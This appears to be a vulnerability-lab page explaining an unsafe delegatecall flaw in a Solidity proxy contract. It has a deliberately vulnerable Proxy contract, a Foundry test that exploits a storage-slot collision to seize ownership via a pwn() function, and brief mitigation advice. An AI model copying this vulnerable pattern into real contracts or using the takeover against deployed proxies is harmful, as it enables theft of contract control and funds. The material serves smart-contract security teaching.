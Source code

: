 # Unsafe Delegatecall

[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**Name:** Unsafe Delegatecall Vulnerability

**Description:**  
The Proxy Contract Owner Manipulation Vulnerability is a flaw in the smart contract design that
allows an attacker to manipulate the owner of the Proxy contract, which is hardcoded as 0xdeadbeef.
The vulnerability arises due to the use of delegatecall in the fallback function of the Proxy contract.
delegatecall allows an attacker to invoke the pwn() function from the Delegate contract within the context of the Proxy contract, thereby changing the value of the owner state variable of the Proxy contract.
This allows a smart contract to dynamically load code from a different address at runtime.

**Scenario:**  
Proxy Contract is designed for helping users call logic contract
Proxy Contract's owner is hardcoded as 0xdeadbeef
Can you manipulate Proxy Contract's owner ?

**Mitigation:**  
To mitigate the Proxy Contract Owner Manipulation Vulnerability,
avoid using delegatecall unless it is explicitly required, and ensure that the delegatecall is used securely.
If the delegatecall is necessary for the contract's functionality, make sure to validate and
sanitize inputs to avoid unexpected behaviors.

**Proxy Contract:**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // vulnerable
        require(suc, "Delegatecall failed");
    }
}
```
**How to Test:**

forge test --contracts src/test/Delegatecall.sol-vvvv  
```
// Test function for a scenario where delegatecall is used.
function testDelegatecall() public {
    // Initialize a new Delegate contract, which is the "logic contract".
    DelegateContract = new Delegate(); 
    // Initialize a new Proxy contract, passing the address of the Delegate contract to its constructor. This is the "proxy contract".
    proxy = new Proxy(address(DelegateContract)); 

    // Log Alice's address.
    console.log("Alice address", alice);
    // Log the owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());

    // Log the start of the operation to change the owner of the Proxy contract.
    console.log("Change DelegationContract owner to Alice...");
    // Set the message sender to Alice.
    vm.prank(alice);
    // Call the pwn function of the Delegate contract through a delegatecall. This is the exploit.
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback() will delegatecall Delegate.pwn(), making Alice the owner of the Proxy contract.

    // Log the new owner of the Proxy contract.
    console.log("DelegationContract owner", proxy.owner());
    // Log the completion of the exploit.
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// The Delegate contract, which contains the code that can be called via delegatecall.
contract Delegate {
    // The owner of the contract.
    address public owner; // slot0

    // The pwn function, which sets the owner of the contract to the message sender.
    function pwn() public {
        owner = msg.sender;
    }
}
```
Red box: exploited successful, owner changed.
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

